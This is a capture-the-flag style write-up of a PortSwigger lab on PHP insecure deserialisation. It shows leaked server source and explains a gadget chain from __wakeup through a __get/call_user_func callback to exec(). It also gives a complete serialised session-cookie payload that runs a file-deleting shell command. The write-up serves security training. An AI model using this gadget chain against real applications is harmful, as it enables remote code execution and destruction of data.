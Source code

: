 # Developing a custom gadget chain for PHP deserialisation

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-php-deserialization) uses a serialisation-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialisation to achieve remote code execution. 

## Reproduction and proof of concept

1. Log in with `wiener:peter`. The session cookie contains a serialised PHP object. 

![Serialisation](/_static/images/ser10.png)

2. The website references the file `/cgi-bin/libs/CustomTemplate.php` (find in **Target** tab). Get the source code by submitting a request using the `.php~` backup file extension.

Response:

```text
HTTP/1.1 200 OK
Content-Type: text/plain
Set-Cookie: session=; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 1396

<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

3. The `__wakeup()` magic method for a `CustomTemplate` will create a new Product by referencing the `default_desc_type` and `desc` from the `CustomTemplate`.
4. The `DefaultMap` class has the `__get()` magic method, which will be invoked if you try to read an attribute that doesn't exist for this object. This magic method invokes `call_user_func()`, which will execute any function that is passed into it via the `DefaultMap->callback` attribute. The function will be executed on the `$name`, which is the non-existent attribute that was requested.
5. This gadget chain can be exploited to invoke `exec(rm /home/carlos/morale.txt)` by passing in a `CustomTemplate` object where:

```text
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
```

6. Follow the data flow in the source code: this will cause the `Product` constructor to try and fetch the `default_desc_type` from the `DefaultMap` object. As it doesn't have this attribute, the `__get()` method will invoke the callback `exec()` method on the `default_desc_type`, which is set to the shell command.
7. To solve the lab, Base64 and URL-encode the following serialised object, and pass it into the website via the session cookie:

```text
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
```

![Serialisation](/_static/images/ser11.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and delete the `morale.txt` file from Carlos's home directory. 
